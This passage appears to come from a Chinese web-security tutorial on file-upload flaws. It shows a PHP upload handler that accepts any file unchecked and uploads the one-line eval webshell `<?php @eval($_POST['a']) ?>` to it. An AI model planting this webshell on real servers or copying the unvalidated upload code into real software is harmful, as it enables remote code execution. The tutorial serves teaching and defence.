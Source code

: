 看一下这段代码：

```
<form action="" method="POST" ENCTYPE="multipart/form-data">
    点这里上传文件:
    <input type="file" name="userfile">
    <input type="submit" value="提交">
</form>
<?php
if(!isset($_FILES['userfile']))
    exit;
echo "<pre>";
print_r($_FILES);
echo "</pre>";
$uploaddir='upfile/';
$PreviousFile=$uploaddir.basename(@$_FILES['userfile']['name']);
if(move_uploaded_file(@$_FILES['userfile']['tmp_name'], $PreviousFile))
    echo '上传成功！';
else
    echo '上传失败！';
```

首先是一个文件上传表单，我们可以看到表单中多了一个`enctype`属性，是因为文件上传的格式和之前不一样，不加这个就无法识别了。

然后会检查是否接受到了上传文件，没有接收到就直接结束。之后会打印出文件信息，便于我们调试。之后将上传文件的名称和保存上传文件的目录拼接，将文件从临时目录移动到这个目录。最后输出成功或失败信息。

将其保存为`upfile.php`后，我们首先访问它并尝试上传一个文件。我们把一句话`<?php @eval($_POST['a']) ?>`写入`1.php`，然后把它上传到服务器。

![](../img/11cfc8c7620fbc83194a10d5956e0f9c.png)

于是我们看到上传成功。

![](../img/bca3ca047312e956074ef7550b12a6f7.png)
